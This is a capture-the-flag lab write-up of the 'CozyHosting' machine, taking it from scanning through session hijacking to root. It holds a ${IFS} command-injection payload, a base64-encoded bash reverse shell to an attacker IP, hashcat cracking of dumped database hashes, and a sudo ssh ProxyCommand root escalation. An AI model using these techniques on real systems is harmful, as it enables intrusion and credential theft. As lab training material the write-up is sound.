


# Information Gathering

Scanned all TCP ports:

```bash
# save target IP as machine variable
export IP='10.10.11.230'

#initial nmap scan
nmap -Pn -sVC -v -p- --open -oN nmap/initial.nmap $IP

#nmap results
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

# Enumeration

## TCP Port 80 - HTTP

Firstly, we will add `cozyhosting.htb` to our `/etc/hosts` file	

```bash
echo "10.10.11.230  cozyhosting.htb" | sudo tee -a /etc/hosts
```

I then navigated to the website in my browser to do some quick checks on the Web Application and its functionality

I discovered that the site is running the Nice Admin template and that it was made with Bootstrap v5.2.3



Other than this, the only interesting functionality I found was a `/login` page


I tried a few things to see if there were any quick wins but no luck

Then, performed `dirsearch`

```bash
dirsearch -u http://cozyhosting.htb/
```


Found an interesting directory `/actuator` which had a subdirectory of `/sessions` inside it. This one stood out to me as it was the first subdirectory with data in it

### /sessions

When manually navigating to `http://cozyhosting.htb/actuator/sessions` , we get the following result


The first thing that came to mind after seeing this is to try to go back to the `/login` page and intercept the request with BurpSuite and replace the HTTP Request information with the information we’ve just found.


I enabled Intercept mode in BurpSuite and then clicked login on the browser. I navigated back to BurpSuite then replaced the username and JSESSIONID with the recovered information from the `/sessions` page.


We’re in!

Note: The JSESSIONID’s expiration was really fast in my experience thus making this take longer than it should have. My recommendation is to have your browser of choice open with the `/actuator/sessions` page and Burp’s browser open with Intercept mode on ready to intercept the `/login` page request. This should ensure that you have a valid JSESSIONID and get in the first try

---

# Exploitation

## Command Injection

Upon logging in and navigating to the bottom of the admin page, there appears to be some sort of SSH connection tool. 

This looks like command injection, let’s test to verify:

```bash
;ping${IFS}-c4${IFS}<attacker-ip>;#
```

Note: the `${IFS}` acts as the space character. If you try running this command without it you will get the below error after being redirected

```html
GET /admin?error=Username can't contain whitespaces!
```

When we perform a ping, the response is quite delayed, which leads me to believe that the target is vulnerable to command injection

Note: to have concrete evidence of this, you could simply run `tcpdump` or `Wireshark` and filter for incoming ICMP Echo requests.

I then created a reverse shell using [https://www.revshells.com](https://www.revshells.com) and base64 encoded it to help eliminate the white spaces

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC80NDQ0IDA+JjE=
```

Now we just need to plug the payload in and URL encode it as shown below


We’ll send the request and….

We’re in!


---

# Privilege Escalation

## Local enumeration

When running the `ls` command, we find a `.jar` file

We will create a Python HTTP server to transfer the file to our attacker machine

```bash
python3 -m http.server 9001
```

Then, run the below on the attacker machine to transfer the file

```bash
wget http://cozyhosting.htb:9001/cloudhosting-0.0.1.jar
```

With the file now transferred, we will inspect the file.

I had to install `jd-gui` for this. If you’re on Kali, you simply just have to enter the below command to install

```bash
sudo apt install jd-gui
```

Now, to open `jd-gui` and inspect the `.jar` file

```bash
jd-gui cloudhosting-0.0.1.jar
```


After searching around, I found an [`application.properties`](http://application.properties) file that contains DB information and credentials


Let’s go back to our reverse shell and connect to the Postgres DB


We will then connect to the `cozyhosting` database as mentioned in the `.jar` file


I performed a basic SQL query to get everything from the `users` table and we got two usernames and hashes, one being an Admin user.

Let’s extract these hashes, identify their respective mode in Hashcat, and crack them.

First, I simply copied the hashes in my clipboard and pasted them in a file on my attacker machine called `hashes.txt`

Secondly, my preferred way to find hashes is by using Hashcat’s own [website](https://hashcat.net/wiki/doku.php?id=example_hashes)

In this case, the hash mode is `3200`, now, lets try to crack

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

We successfully cracked the `Admin hash`


## SSH as Root

After running `cat /etc/passwd | grep /bin/bash`, we find that there is no admin user and is only one other user, `josh`.

So, let’s try to `su` to `josh` using the new password.


After running `sudo -l`, we see that `josh` can run SSH as root


We will make short work of this thanks to one of my favorite resources: [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


---

# Resolution summary

- Perform an nmap scan against the target
- Manually inspect the web page and perform directory enumeration
- Navigate to the /actuator/sessions page and extract the JSESSIONID
- Login to the /login page with the extracted JSESSIONID
- With Admin access to the dashboard, test the SSH connection tool
- Test for command injection in the SSH connection tool by pinging the attacker machine
- With command injection confirmed, craft a reverse shell and execute it
- Extract the .jar file in the app user’s home directory
- Scour the .jar file for interesting information
- With DB credentials found in the .jar file, connect to the postgres database in the reverse shell connection
- Dump the users table and extract the hashes
- Crack the hashes with hashcat
- Login as josh with the gathered credentials
- Get user flag
- Enumerate for vulnerable sudo permissions
- Abuse SSH sudo permissions via GTFOBins
- Get root flag

## Used tools

- nmap
- dirsearch
- hashcat
- jd-gui
- postgres
- BurpSuite

---

# Trophy

**User.txt**


**Root.txt**

